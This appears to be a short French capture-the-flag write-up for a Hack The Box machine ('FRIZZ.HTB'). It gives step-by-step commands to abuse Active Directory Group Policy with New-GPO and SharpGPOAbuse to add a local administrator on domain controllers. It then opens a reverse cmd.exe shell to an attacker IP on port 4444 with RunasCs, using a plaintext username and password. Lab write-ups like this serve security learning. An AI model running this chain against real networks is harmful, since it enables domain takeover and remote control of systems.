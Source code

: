 SharpGPOAbuse.exe

### 1. commande PowerShell utilisée pour créer un nouvel objet de stratégie de group
```
New-GPO -Name "pwnedGPO
```

### 2.creer un nouveau GPO nommé evil et  lié à l'unité d'organisation des contrôleurs de domaine.

```
New-GPO -Name PwnedGPO | New-GPLink -Target "OU=DOMAIN CONTROLLERS,D
C=FRIZZ,DC=HTB" -LinkEnabled Yes
```

### 3. Modifier l'objet de stratégie de groupe pour ajouter un administrateur local

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <Users>--GPO
Name PwnedGPO
```

### 4.Force GPO Update

```
gpupdate /force
```

### 5.Spawn Administrative Shell
RunasCs.exe pour lancer un shell cmd.exe avec les identifiants

```
\RunasCs.exe M.SchoolBus !suBcig@MehTed!R cmd.exe -r Your-machine-ip:
4444
```

https://www.synacktiv.com/en/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more
